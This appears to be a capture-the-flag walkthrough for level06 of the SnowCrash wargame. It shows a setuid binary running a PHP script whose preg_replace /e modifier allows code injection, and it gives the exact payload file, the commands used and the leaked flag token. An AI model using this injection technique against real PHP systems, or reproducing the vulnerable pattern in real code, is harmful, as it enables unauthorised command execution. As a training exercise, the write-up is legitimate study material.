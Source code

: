 # Level06

</br></br>

## ls -l

```sh
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Les deux fichiers sont exécutables et lisibles
Dans le fichier level06, rws signifie lecture-écriture-exécution + setuid. Cela signifie que lorsque le fichier est exécuté, l'utilisateur exécutant a les privilèges du propriétaire du fichier (flag06). Ainsi, lorsque l'utilisateur level06 exécute le fichier level06, il aura les privilèges de l'utilisateur flag06 lors de son exécution.

</br></br>

## d'exécution level06

```sh
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```
</br></br>

## level06.php

```php
level06@SnowCrash:~$ cat ./level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
</br></br>

## regex and shell_exec
reg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a)

regex : (\[x (.*)\])

#To match the regex our string must start by "[x" and finish by "]"

[x {${shell_exec(getflag)}}]

</br></br>

## make file 
```sh
level06@SnowCrash:~$ mkdir /tmp/level06
level06@SnowCrash:~$ echo '[x {${shell_exec(getflag)}}]' > /tmp/level06/flag06
```

</br></br>

## execute level06 with file flag06
```sh
level06@SnowCrash:~$ ./level06 /tmp/level06/flag06 
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
level06@SnowCrash:~$ su level07
Password: 
```
